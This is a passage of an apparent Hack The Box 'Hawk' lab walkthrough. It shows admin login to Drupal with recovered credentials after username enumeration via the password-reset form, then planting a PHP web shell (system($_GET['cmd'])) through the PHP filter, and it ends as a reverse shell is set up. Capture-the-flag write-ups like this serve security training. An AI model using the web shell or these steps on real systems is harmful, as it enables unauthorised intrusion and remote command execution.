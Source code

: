 ```text
root@kali:~/Desktop/htb/hawk# cat drupal.txt
Daniel,Following the password for the portal:PencilKeyboardScanner123Please let us know when the portal is ready.Kind Regards,IT department
```

We have a possible username “_Daniel_” and a password “_PencilKeyboardScanner123_”. Let’s go back to the Drupal application and test out the credentials.

We get the following error.

![](https://miro.medium.com/max/985/1*eJgK634h4kHKmzIboiZ0eA.png)

It doesn’t tell us whether the username is incorrect or the password is incorrect. So let’s visit the “_Request new password_” link and enumerate usernames from there.

![](https://miro.medium.com/max/987/1*n1cof7iZPg-87Lb9nVqyjw.png)

_Daniel_ is definitely not a username that exists in the system. I tried _admin_, and I get a different error that indicates _admin_ is a user of the system! Let’s try the password on the _admin_ username.

![](https://miro.medium.com/max/1412/1*8Nb9hf36bCY9KSzvouXNjg.png)

We’re in!

## Initial Foothold <a id="cd9a"></a>

In the droopescan results, we saw that the PHP plugin is installed. This means that we can run PHP code. Let’s check if the plugin is enabled.

Visit the _Modules_ tab and enable the _PHP filter_ option. Then save the configuration.

![](https://miro.medium.com/max/1306/1*M2ZRBoAvehIjl6ZfYDq5Bw.png)

Click on the _Add new content_ link on the index page. Then select _Article_. In the _Title_ and _Tags_ field add any random value and in the _Body_ field add the following PHP code.

```text
<?php system($_GET['cmd']); ?>
```

The above code adds a ‘_cmd_’ parameter to the request that can execute system commands.

Change the _Text format_ to _PHP code_ and click _Save_. Then add the _cmd_ parameter to the URL and run the _whoami_ command.

![](https://miro.medium.com/max/1124/1*FCuybgYOf6N431WYPS7Nnw.png)

We have code execution! Let’s intercept the request in Burp and send it to Repeater. Then change the _cmd_ parameter to a reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Don’t forget to URL encode it \(Ctrl+U\).

![](https://miro.medium.com/max/693/1*oSlSUAsitdlHv5OfWKmP7g.png)

Set up a listener on the attack machine to receive the reverse shell.

